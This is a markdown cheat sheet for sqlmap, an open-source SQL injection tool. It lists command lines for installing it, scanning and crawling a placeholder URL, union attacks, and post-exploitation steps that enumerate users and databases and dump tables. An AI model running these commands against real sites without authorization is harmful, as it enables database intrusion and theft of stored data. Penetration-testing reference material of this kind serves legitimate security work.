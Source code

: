 <mark style="background: #FF5582A6;">Scope</mark> : Automatic SQL injection and database takeover tool.

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

<mark style="background: #FF5582A6;">Source</mark>:   https://github.com/sqlmapproject/sqlmap
Environment:  Python

<mark style="background: #FF5582A6;">Installation</mark>:  
***Pre-installed in Kali Linux

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## <mark style="background: #FF5582A6;">Example usages</mark>

To get a list of basic options and switches:
```
python sqlmap.py -h
```

To get a list of all options and switches:
```
python sqlmap.py -hh
```

### <mark style="background: #D2B3FFA6;">Vulnerability Finding</mark>

### <mark style="background: #FFF3A3A6;">ALL IN ONE</mark>
```
sqlmap -u url.com --threads 5 --level 5 --risk 3 --v 1 --batch
```
 
***Auto Select default features
```
sqlmap -u url.com/news.php?id=1 --batch
```

***Crawling the URL 
```
sqlmap -u url.com --crawl depth --batch
```

***Union attack

```
sqlmap -u url.com --crawl 5 --technique="U" --batch
```

***Thread ---using multiple connection for faster result, default 1, [range= 1 to 10]
```
sqlmap -u url.com --crawl 5 --threads [1 to 10] --batch
```
 
***Risk -- harm level of payloads used, default 1, [range=1 to 3]

```
sqlmap -u url.com --crawl 5 --risk 3
```

***Level -- test in the cookies; default 1, [range=1 to 5]

```
sqlmap -u url.com --crawl 5 --level 5
```

***Verbosity , default 0,[range=0 to 6]
```
sqlmap -u url.com --crawl 5 --batch --v 6
```

### <mark style="background: #D2B3FFA6;">Post Exploitation</mark>

***User Enumeration; after finding a vulnerable parameter

```
sqlmap -u url.com/news.php?id=1 --current-user --batch
```

```
sqlmap -u url.com/news.php?id=1 --hostname --batch
```

***Getting current database name
```
sqlmap -u url.com/news.php?id=1 --current-db --batch
```


***Getting tables in database
```
sqlmap -u url.com/news.php?id=1 -D database_name --tables
```

***Getting All columns in a table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --dump
```

***Getting a specific Column Type in a specific table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --columns
```

***Getting all tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --dump-all
```

***Getting all database details
```
sqlmap -u url.com/news.php?id=1 --dbs
```

### <mark style="background: #D2B3FFA6;">Saving Output</mark>

```
sqlmap -u url.com --crawl 5 --output-dir="/location/to/save.txt"
```

